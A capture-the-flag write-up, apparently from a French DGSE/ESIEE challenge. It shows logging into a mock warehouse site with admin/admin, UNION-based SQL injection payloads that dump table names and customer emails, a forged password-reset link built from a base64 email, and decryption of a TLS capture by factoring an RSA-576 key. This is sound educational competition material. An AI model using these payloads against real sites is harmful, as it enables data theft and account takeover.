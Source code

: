 # Web

## Stockos

Our first goal, given by Jérémy Nitel, was to search for creditentials in a broken warehouse's website named Stockos. The messages also indicates that Stockos has its admin password leaked multiple times and that it was a simple one.

When landing on the provided link (https://challengecybersec.fr/4e9033c6eacf38dc2a5df7a14526bec1/), we stumble upon a login page. Remembering the easy password, we tried `admin` as login and password. Bingo! It was right, we are now logged on as the admin. We cannot do much except change some personal infos about the admin and list the orders from the warehouse. Interestingly, there is a search function, this got us and idea to try for an SQL injection.

And so we did, by trying different character sets, we found out that `' AND 1=1 -- '` works. We then supposed that the request was written like this:
```sql
SELECT ?, ?, ?, ?, ? FROM ? WHERE ?='<our input text>%' ORDER BY section ASC
-- With our input text:
SELECT ?, ?, ?, ?, ? FROM ? WHERE ?='' AND 1=1 -- '%' ORDER BY section ASC;
```
Now, with a door to enter, we can use the keyword `UNION` to append new information on the tables. One very interesting table name to look for is `information_schema.tables`. This is a table that lists all tables.
```sql
-- <' AND 0=1 UNION SELECT table_name, 2, 3, 4, 5 FROM information_schema.tables -- '>
SELECT ?, ?, ?, ?, ? FROM ? WHERE ?='' AND 0=1 UNION SELECT table_name, 2, 3, 4, 5 FROM information_schema.tables -- '%' ORDER BY section ASC
```
With every tables listed, we can check the `customer` table. We still need the column names and the table `information_schema.columns` can help us.
```sql
-- <' AND 0=1 UNION SELECT column_name, 2, 3, 4, 5 FROM information_schema.columns WHERE table_name='customer' -- '>
SELECT ?, ?, ?, ?, ? FROM ? WHERE ?='' AND 0=1 UNION SELECT column_name, 2, 3, 4, 5 FROM information_schema.columns WHERE table_name='customer' -- '%' ORDER BY section ASC
```
The request above will print the name of every column of `customer`. `name` and `email` are very useful.
```sql
-- <' AND 0=1 UNION SELECT name, email, 3, 4, 5 FROM customer -- '>
SELECT ?, ?, ?, ?, ? FROM ? WHERE ?='' AND 0=1 UNION SELECT name, email, 3, 4, 5 FROM customer -- '%' ORDER BY section ASC
```
This last SQL request will print the list of each customer's name and email. And there lays the email we are looking for: `agent.malice@secret.evil.gov.ev`. We can now go try the rest of the challenge.

*__Note__: The end of the SQL request can be leaked by creating a malformed request like `'`. You can also find that this is a MySQL server. The numbers `1` to `5` in SQL requests are special name for dummy columns.*

## Evil Air

This plane ticket bookmarking website were also given by Mr. Nitel (https://www.challengecybersec.fr/35e334a1ef338faf064da9eb5f861d3c/). We had to book a plane ticket from `Bad City` to `Evil City` at thoses dates `26/10/2020` -> ` 28/10/2020` (French Date Format).

When we tried to book the ticket, it asked us to login / register on the site. If you register with a standard mail / username email, you will be denied from accessing the order page, and accessing the QR Code that contain the flag to going further.

You the get an activation link: `http://challengecybersec.fr/35e334a1ef338faf064da9eb5f861d3c/activate/ZXhhbXBsZS5leGFtcGxlQHRlc3QuY29t

Then we looked at the reset password form, and the link were the same with the sole variation: instead of `activate` you have `reset`. We digged more the link and discovered that the last part of the link was a base64 hash of the account email address (this link is the hash of `example.example@test.com`). We replaced the fake account with the base64 hash of the email we were looking for on stockos (http://challengecybersec.fr/35e334a1ef338faf064da9eb5f861d3c/reset/YWdlbnQubWFsaWNlQHNlY3JldC5ldmlsLmdvdi5ldg==), then it displayed the password, and allowed us to order the ticket. It then shows the QR code containing the flag `DGSESIEE{2cd992f9b2319860ce3a35db6673a9b8}`.

<p align="center">
    <img width=25% src="./flag.png" alt="Rank: 153 - Team: Sagliss - Last Validation: 08/11 - Points: 450">
</p>

When provinding the flag, Nitel responded with a `.pcap` file.

## TLS

The next challenge is about decypting a conversation between a client and a server. The data is stored in [capture.pcap](./capture.pcap). One can see that the conversation is done via TLS. The issue is that TLS data can be encrypted (and it is the case here). The conversation is done via `TLS_RSA_WITH_AES_128_CBC_SHA` which is crackable if someone can crack the RSA key of the server. The `PublicKey` is available under the `Certificate` exchange and one can found the following number for `n`:
```
(hex) 0x00c2cbb24fdbf923b61268e3f11a3896de4574b3ba58730cbd652938864e2223eeeb704a17cfd08d16b46891a61474759939c6e49aafe7f2595548c74c1d7fb8d24cd15cb23b4cd0a3
(dec) 188198812920607963838697239461650439807163563379417382700763356422988859715234665485319060606504743045317388011303396716199692321205734031879550656996221305168759307650257059
```
While browsing for solutions, we found that this peculiar number was a factorisation challenge called [RSA-576](https://en.wikipedia.org/wiki/RSA_numbers#RSA-576) that yields these results:
```
188198812920607963838697239461650439807163563379417382700763356422988859715234665485319060606504743045317388011303396716199692321205734031879550656996221305168759307650257059
=
398075086424064937397125500550386491199064362342526708406385189575946388957261768583317
x
472772146107435302536223071973048224632914695302097116459852171130520711256363590397527
```
The python script [rsa_gen.py](./rsa_gen.py) (Requires [rsa](https://pypi.org/project/rsa/)) will generate a private key file that will be used by Wireshark to decrypt the [TLS](https://wiki.wireshark.org/TLS?action=show&redirect=SSL).
```
$ python rsa_gen.py private.pem
```
When decrypting the TLS with this private key, we can find that the user was accessing the page `/7a144cdc500b28e80cf760d60aca2ed3` but resulted in a 404. And this is the link to the Coros CTF (https://ctf.challengecybersec.fr/7a144cdc500b28e80cf760d60aca2ed3)